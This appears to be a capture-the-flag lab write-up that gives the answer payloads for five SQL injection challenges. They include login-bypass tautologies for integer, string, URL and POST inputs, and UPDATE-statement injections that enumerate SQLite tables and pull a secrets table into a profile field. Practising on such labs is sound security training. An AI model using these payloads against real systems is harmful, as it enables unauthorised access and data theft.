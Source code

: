 ## Taks 1 
### SQL Injection 1: Input Box Non-String
* Answer : `1 or 1=1-- - `

### SQL Injection 2: Input Box String
* **Description** : *This challenge uses the same query as in the previous challenge. However, the parameter expects a string instead of an integer, as can be seen here:*
* Answer : `1' or '1'='1'-- -`
### SQL Injection 3 URL : 
* **Description** : *Here, the SQL query is the same as the previous one:* `SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='10' AND password='ce5ca67...'`
* Answer : `' or 1=1-- -`
### SQL injection ; 4 POST :
* **Description** : *When submitting the login form for this challenge, it uses the HTTP POST method. It is possible to either remove/disable the JavaScript validating the login form or submit a valid request and intercept it with a proxy tool such as Burp Suite and modify it:*
* Answer : `1' or 1=1--`
### SQL Injection 5: UPDATE Statement
* **Description** :* Log in to the "SQL Injection 5: UPDATE Statement" challenge and exploit the vulnerable profile page to find the flag. The credentials that can be used are:*
* profileID: `10`
* password:`toor`
* **FInd Database Version** : `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='`
* **Final payload to find FLAG** : `',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email=''`
